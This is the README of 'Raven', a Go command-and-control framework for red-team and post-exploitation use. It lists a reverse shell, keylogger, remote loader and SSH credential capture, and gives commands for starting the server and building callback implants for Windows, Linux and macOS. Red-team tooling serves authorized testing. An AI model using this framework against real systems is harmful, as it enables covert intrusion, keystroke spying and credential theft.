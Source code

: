 # Raven C2

**Raven** is a lightweight, cross-platform Command & Control (C2) framework written in **Golang**. It supports **Windows**, **Linux**, and **macOS**, and is designed for red team operations and post-exploitation scenarios.

---

## ✨ Features

- ✅ mTLS Reverse Shell  
- ✅ Keylogger  
- ✅ File Download  
- ✅ File Upload  
- ✅ Loader (Remote Execution)  
- ✅ SSH Credential Capture (Linux)  
- ✅ Proxy Support (SOCKS5 & Port Forwarding)

---

## 📁 Project Structure

- `client/` – The implant (agent) that runs on the target machine  
- `server/` – The C2 server and control interface  
- `cmd/` – Bootstrapper to generate server TLS materials and start the server

---

## 🚀 Quick Start

### 1. Start the server

In the `cmd/` directory, run:

```bash
go run . -server-ip 127.0.0.1 -server-port 443
```

This generates server certificates and outputs the required setup. Then, run the server:

```bash
./server
```

Once running, you'll enter an interactive console:

```
$raven >
```

Use `help` to list available commands.

---

### 2. Build client binaries

To generate platform-specific payloads:

```
$raven > build windows/amd64 -ip 127.0.0.1 -port 443
$raven > build linux/386 -ip 127.0.0.1 -port 443
$raven > build darwin/arm64 -ip 127.0.0.1 -port 443
```

Once executed on a target, new clients will appear and can be listed with:

```
$raven > clients
```

---

### 3. File Upload Instructions

Before uploading a file, it must be registered using the `enroll` command and placed under the `cmd/uploads` directory.

Example:

```bash
$raven > enroll test.txt
```

Then you can upload it to the target with:

```
$raven > upload test.txt <target-path>
```

---

## ⚙️ Requirements

- Go 1.20+
- OpenSSL (for generating certs, optional if pre-generated)

---

## 📌 Disclaimer

This project is created for **educational and authorized security research purposes only**.  
**Do not use it for illegal, malicious, or unethical activities.**  
The author assumes no responsibility for any damage caused by the misuse of this tool.
